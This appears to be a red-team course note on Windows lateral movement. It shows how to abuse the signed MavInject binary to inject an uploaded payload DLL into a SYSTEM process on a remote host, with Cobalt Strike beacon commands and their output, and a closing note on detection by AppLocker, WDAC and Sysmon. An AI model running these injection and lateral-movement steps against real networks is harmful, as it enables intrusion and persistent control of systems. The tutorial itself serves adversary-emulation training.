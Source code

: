 
Using a [LOLBAS](https://lolbas-project.github.io/) (Living Off The Land Binaries and Scripts) to facilitate lateral movement is popular amongst some threat actors.  These are binaries, scripts, or libraries that are native to Windows or can be downloaded from Microsoft; are signed with Microsoft's official code-signing certificate; and have functionality useful to a threat, such as arbitrary code execution.

### MavInject

MavInject is a signed Microsoft executable that provides functionality for App-V to inject libraries into other process.  It lives in the System32/SysWOW64 directories on default Windows installations.

This utility can be abused to inject any arbitrary DLL into a target process, using the syntax `mavinject.exe [PID] /INJECTRUNNING [DLL PATH]`.  

First, use `remote-exec` to list the running processes on the remote target.

```powershell
beacon> remote-exec winrm lon-ws-1 Get-Process -IncludeUserName | select Id, ProcessName, UserName | sort -Property Id

Id             : 1992
ProcessName    : spoolsv
UserName       : NT AUTHORITY\SYSTEM

Id             : 2280
ProcessName    : CompatTelRunner
UserName       : NT AUTHORITY\SYSTEM

Id             : 2588
ProcessName    : AggregatorHost
UserName       : NT AUTHORITY\SYSTEM

[...snip...]
```

Then, upload a DLL payload to the target and use MavInject to inject it into your chosen process.

```powershell
beacon> cd \\lon-ws-1\ADMIN$\System32
beacon> upload C:\Payloads\smb_x64.dll

beacon> remote-exec wmi lon-ws-1 mavinject.exe 1992 /INJECTRUNNING C:\Windows\System32\smb_x64.dll
Started process 1608 on lon-ws-1

beacon> link lon-ws-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.10
```

![[Pasted image 20250714103654.png]]

# _OPSEC Considerations_

> Most mature organisations have a good handle on LOLBAS abuses.  They can be blocked outright using application control technologies such as AppLocker and WDAC, or their use simply logged via process creation events generated by Sysmon or other monitoring tools.  For those reasons, the use of LOLBAS is generally more application to adversary emulation rather than simulation.